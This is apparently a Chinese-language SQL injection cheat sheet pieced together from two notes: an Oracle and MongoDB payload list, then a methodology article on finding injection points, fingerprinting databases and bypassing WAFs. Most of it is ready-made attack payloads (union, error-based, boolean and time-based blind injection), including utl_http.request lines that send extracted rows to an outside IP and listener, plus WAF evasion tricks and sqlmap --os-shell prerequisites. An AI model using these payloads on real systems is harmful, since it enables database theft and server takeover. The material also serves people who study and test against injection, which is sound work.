//将表名格式化字符串，然后先取出所有的表名去重，再将行数作为另一个字段，再从这个（表名，行数）表里查表名，限制条件为行数LIMIT(行数改名)
?id=-1 union select CAST(table_name as varchar(400)) from (select table_name,rownum as LIMIT from (select DISTINCT(table_name) from all_tables where owner='TEST')) where LIMIT=1 -- +
```





```sql
//获取字段名
select * from user_tab_columns;
select column_name from user_tab_columns where rownum=1 and table_name =  'x' and column_name not in ('xxxx');
#payload：
?id=-1 union select CAST(column_name as varchar(400)) from (select column_name,rownum as LIMIT from (select DISTINCT(column_name) from user_tab_columns where table_name='FLAG')) where LIMIT=1 -- +
```


```sql
\\查询数据
select id||name from test.demo;
select id||name from test.demo where rownum=1;
#payload：
?id=-1 union select 1,name||pwd,2,3 from flag where rownum=1 -- +
?id=-1 union select 1,concat(name,pwd),2,3 from flag where rownum=1 -- +
?id=-1 union select 1,cast(name||pwd as varchar(4000)),2,3 from (select name,pwd,rownum as LIMIT from (select * from flag)) where LIMIT=1 -- +
```


#### 报错注入

```sql
//dbms_xdb_version.checkin()
#sql:
select dbms_xdb_version.checkin(select sys_context('USERENV','CURRENT_USER') FROM dual) from dual;
#payload(1):
?id=-1 and (select dbms_xdb_version.checkin((select sys_context('USERENV','CURRENT_USER') from dual)) from dual) is not null -- +
#payload(2):
?id=-1 and (select dbms_xdb_version.checkin((select CAST(column_name as varchar(400)) from (select column_name,rownum as LIMIT from (select DISTINCT(column_name) from user_tab_columns where table_name='FLAG')) where LIMIT=2)) from dual) is not null -- +


//bms_xdb_version.uncheckout()
#sql:
select dbms_xdb_version.uncheckout(select sys_context('USERENV','CURRENT_USER') FROM dual) from dual;
#payload(1):
?id=-1 and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null -- +
#payload(2):
?id=-1 and (select dbms_xdb_version.uncheckout((select sys_context('USERENV','CURRENT_USER') from dual)) from dual) is not null -- +
#payload(3):
?id=-1 and (select dbms_xdb_version.uncheckout((select CAST(column_name as varchar(400)) from (select column_name,rownum as LIMIT from (select DISTINCT(column_name) from user_tab_columns where table_name='FLAG')) where LIMIT=3)) from dual) is not null -- +


//utl_inaddr.get_host_name()
#paylaod
select utl_inaddr.get_host_name('主机') from dual;

//dbms_xdb_version_.makeversioned()
//dbms_utility.sqlid_to_sqlhash()
//ordsys.ord_dicom.getmappingxpath()
//ctxsys.drithsx.sn()
```


#### 布尔盲注

`decode()、instr()、ascii()`

```sql
decode(字段和值的运算,值1，值2,值3)函数
运算结果与值1进行对比，返回值2，不相等返回值3
decode(substr(str,1,1),'0-9a-zA-Z',1,0) 第一位与a对比，一样返回 1，否则返回0
#payload:
?id=1 and (select decode(substr((select user from dual),1,1),'T',1,0) from dual) =1  -- 
```

```sql
instr(str1,str2)若str1中存在相关字符，返回所在的位置，不存在返回0
可以进行字符串内容的对比,str1=str2>0相当于like，等于0相当于 not like 
and instr(substr(str,1,1),'1')=1
#payload
?id=1 and (select instr(substr((select user from dual),1,3),'E') from dual)=2  --   所在位置为2
#payload
?id=1 and (select instr(substr((select user from dual),1,4),'E') from dual)>0  --  含有E字符
```

```sql
#ascii+substr
and ascii(substr(str,1,1))>100
#判断各位的ASCII码
?id=1 and (select ascii(substr(str,1,1)) from user_tables where rownum=1)=num -- +
```

```sql
#时间延迟注入
dbms_pipe.receive_message('ICQ',3) from dual 时间延迟 表示从ICQ管道返回的数据需要等待3秒
a可以使用chr()
#payload:
?id=1 or 1= dbms_pipe.receive_message('a',10)  -- 
#配合decode()使用
?id=1 and (select decode(substr((select user from dual),1,1),'T',dbms_pipe.receive_message('icq',10),0) from dual)=1 -- +
```


#### 外带注入

```sql
payload： /orcl.php?id=1 and exists (select count(*) from all_objects where object_name='UTL_HTTP') --+
检测外带函数是否可用

utl_http.request()函数

select utl_http.request('http://ip/?data='||(select owner from all_tables where rownum=1)) from dual;

?id=1 and (select utl_http.request('http://ip/?data='||(select owner from all_tables where rownum=1)) from dual)is not null

||run('exec','whoami','utf-8')

使用 python -m http.server 6666 设置端口监听
```

```sql
#payload：
`?id=-1 and utl_http.request('http://172.16.12.182:6666/?data='||(select cast(id||'~'||name||'~'||sex||'~'||age as varchar(4000)) from (select id,name,sex,age,rownum as LIMIT from demo) where LIMIT=4))=1 -- +
```


### Mongodb注入

查询 db.setname().find().pretty()查询


`db.setname().find("key":"value").pretty() `条件查询

show dbs显示输出库


use dbname   创建数据库或者选择数据库


```sql
db.createCollection('xxx') #创建集合

show collections #显示集合

db #显示当前数据库

db.dropDatabase() #删除库

db.setname.drop() #删除集合
```


插入数据

`db.setname.insert({"key":"value","key2":"value2"})`


##### 删除数据

`db.setname.remove()`\\\删除所有数据

`db.setname.remove({"key1":"value1"})` \\\删除指定数据

###### 修改数据

`db.setname.update({condition},{newinfo})`

`db.setname.update({condition},$set:{newinfo})`

查询

指定查询条件

`db.setname.find({"key":{$ne/ln/gn:value},"key2":"value2"},)`

regex正则匹配

`db.setname.find({"key":{$regex:"re"},"key2":"value2"},)`

##### 注入

重言式


php中get以及post可传递数组

参数传递中?id[$ne]=name传递到php中变成{id:{$ne:name}}

防御：接受的数据强制转为字符串

JavaScript注入


mongoshell拼接注入


# 一、简介

本篇只介绍思路，不做详细注入语句讲解。

# 二、SQL注入产生原因

用户输入处理不当，用户数据被当做SQL语句执行。

# 三、注入类型

| 分类标准           | 分类                                                         |
| :----------------- | :----------------------------------------------------------- |
| 根据请求方式分类   | GET方式注入 POST方式注入                                     |
| 根据注入点参数分类 | 整数型注入 字符型注入 搜索型注入                             |
| 根据反馈类型分类   | union联合查询注入 报错注入 布尔盲注 时间盲注 其他类型 （如请求头注入、内联注入、二次编码注入、宽字节注入、堆叠注入、二阶注入等） |
| 根据数据库类型分类 | Mysql、MSSql、Oracle、Access、MongoDB等                      |

# 四、SQL注入思路

## 1、发现注入点

**注入点**

所有存在**可变参数**且**代入数据**库中执行的数据

如：url中的?id=、页面中的搜索框、POST数据包中的可变参数、数据头中的UA、X-Forward-For等

**判断：**

在参数后加单引号、双引号、斜杠`'、"、\`，全部加。

若页面异常，则可能存在注入；

若页面无变化，则使用延时函数，判断是否存在时间延时盲注（各大数据库通用）；其中，在mysql数据库中，需要额外判断宽字节注入、二次编码注入。若页面存在延时刷新、报错，可能存在sql注入。

## 2、判断闭合符

使用不报错的闭合符（`'或"`）,加上注释符（不同数据库不同，但`-- a`几乎可以通用：mysql中为–空格,mssql和oracle为–，access无注释符号）

注意：

mysql为`?id=1' -- a`形式

mssql、oracle、access均为`?id=1' and 1=1/1=2 --`形式（1=1正常、1=2异常）

若页面返回正常，则单或双引号即为闭合符；若页面依然异常，则在单或双引号后添加`)`，直至页面恢复正常。添加部分与单或双引号组成闭合符。

注意：需要结合语境，判断可能使用的sql语句，更加容易判断闭合符。如搜索型语句处（多存在搜索框处），可能会使用like关键词，需要使用%闭合，构造形如`%'and '%'='`的闭合语句进行闭合判断。

## 3、判断数据库类型

在进行注入前，需要判断数据库类型，从而选择合适的注入语句。使用每个数据库独有的一个或多个语法、函数进行判断。

简单列举，够用即可。

```mysql
#mysql
version()
@@version
length()
database()
user()
报错信息:you have an error in your SQL syntax,check the manual that corrsponds to your mysql server version for the tifht syntax to use near ” at line x
#连接符
concat(‘1′,’1′) = ’11’
‘adm’ ‘in’ = ‘admin’（空格就等同于+）
#特有表
and (select count(*) from information_schema.schemata)>0
```

```mssql
#mssql
@@version
db_name()
user_name()
len()
#特有表
?id=1’ and exists (select * from sysobjects)>0 – 返回正常
##/通过@@version和version()判断
@@version不报错，version()报错。
```

```access
#access
1. 通过报错信息
Microsoft JET Database Engine错误 '80040e14'
2. 通过特有数据表判断
and (select count(*) from msysobjects)>0
3. 通过len和chr函数判断
同时支持len()和chr()，且不支持length()和char()
4. 通过注释符;–判断
使用;--，返回错误，基本可以肯定是Access。
```

```oracle
#oracle
数据库版本：select banner from v_$version
#当前数据库:Select SYS_CONTEXT(‘USERENV’,’DBNAME’) from dual
1. 通过报错信息判断
ORA-01756:quoted string not properly terminated
ORA-00933:SQLcommand not properly ended
2. 通过连接符判断
‘1’||’1’=’11’
concat(‘1′,’1′)=’11’
3. 通过特有数据表判断
and (select count(*) from sys.user_tables)>0
4. 通过length函数判断
可以使用length,不能使用len.
len('a')=1  （报错）
5. 通过substr函数判断
只能使用substr,不能用substring。
```


## 4、选择注入方式

根据页面回显情况，选择通用注入方式：

1>首选union联合查询。要求：有回显位。

2>次选报错注入。要求：页面异常为报错信息。

3>最后是盲注。若页面只有正常和单一异常两种回显，选择布尔盲注；若页面无回显，选择时间盲注。

## 5、结合WAF确定注入语句

结合4，同一处注入点可以有多重注入手法，若是没有waf，按照优先级进行选择即可。若是有waf，需要结合绕waf选择注入方式。

1>首先，判断and、or、空格是否存在waf拦截。

2>然后，按照注入手法优先级，将用到的关键词（如：order by、union select等）单独放入注入语句进行判断。

**优先绕过waf，其次换可替代的关键词、最后换注入方式**。

3>最后，根据waf拦截方式，确定注入语句，依次注出当前数据库名、表名、字段名、数据即可。文末附上常见绕waf方式。

注意：

若为mysql数据库，可进行以下判断

```
--os-shell可对网站进行getshell，但是存在以下前提条件
1、存在sql注入
2、知道网站绝对路径
3、拥有数据库权限（dba权限），也可以使用sqlmap的--is-dba判断
4、数据库配置文件secure_file_priv未设置或设置为可读写的已知路径
```

4>其他：

时间延时盲注可用DNS外带节省注入时间，放在其他文章中再做讲述。

# 五、SQL注入防御

| 方式               | 说明                                                         |
| :----------------- | :----------------------------------------------------------- |
| 去掉单引号         | 现实场景常用单引号，去掉不合实际                             |
| 转义单引号         | 对数字型无效（数字型不需要引号） 斜杠转义 addslashes()函数转义 php.ini配置文件转义（5.6以下版本开启magic_quotes_gpc = On） |
| 强制类型转换       | 针对数字型 intval()                                          |
| 更改数据库连接方式 | POD连接数据库将变量转换成字符串，再写入数据库，无法拼接      |

# 六、WAF绕过

sql语法特性 + http特性 + waf缺陷 = waf绕过

1、大小写绕过（现今几乎无效）

2、替换关键字
1> 关键字双写（代码级别waf有效）
2> 同价词替换，针对特殊关键词拦截的情况

```
and --> &&
or --> ||
= --> <、>
空格 --> %20、%09、%0a、%0b、%0c、%0d、%a0、//
```

 3> 特殊字符拼接（mssql支持拼接、mysql不支持拼接）
​ ‘test1’+’test2’
​
3、编码绕过
常见的sql编码有unicode、hex、url、ascii、base64等
​ 1>url编码（或者二次编码）
​ 2>unicode编码（改/为%）
​ 常见unicode编码
​ 单引号：`%u0027`
​ 空格：`%u0020`
​ 左括号：`%u0028`
​ 右括号：`%u0029`
​
4、注释绕过
利用语言函数特性来绕过waf规则
常见注释符：
`//、--、//、#、--+、---、;、--a`
​ 1>普通注释
​ `/**/`在构造查询中插入注释，规避对空格的依赖或关键字识别
​ 2>内联注释
​ `/*!*/`表示注释里面的语句会被执行（只有MYSQL能识别）
​ `/*!50001 select * from test*/`表示数据库5.00.01以上版本才会执行该语句
​
5、参数污染
当同一参数出现多次，不同中间件会解析为不同结果。如果WAF只检测了同名参数中的第一个或最后一个，并且中间件特征正好取与WAF相反的参数，则可成功绕过

| 服务器中间件    | 解析结果                   | 举例           |
| :-------------- | :------------------------- | -------------- |
| ASP.NET/IIS     | 所有出现的参数值用逗号连接 | par1=var1,val2 |
| ASP/IIS         | 所有出现的参数值用逗号连接 | par1=var1,var2 |
| PHP/Apache      | 仅最后一次出现的参数值     | par1=var2      |
| JSP/Tomcat      | 仅最后一次出现的参数值     | par1=val1      |
| Perl CGI/Apache | 仅第一次出现参数值         | par1=var1      |

如：

```
/index.aspx?id=select 1,2,3 from table
-->
/index.aspx?id=select 1&id=,2,3 from table
```

6、缓冲区溢出
许多WAF是C语言写的，而C语言本身没有缓冲区保护机制，如果WAF在处理测试向量时超出了其缓冲区长度，会引发bug从而实现绕过
如：

```
?id=1 and (select 1)=(select 0xAAAAAA*1000 more A)+union select 1,2version()-- a
```

7、整合绕过
绕过技术结合使用

8、分块传输绕过
burpsuite中更实用post传输数据，设置`Transfer-encoding: chunked`
使用换行分割数据
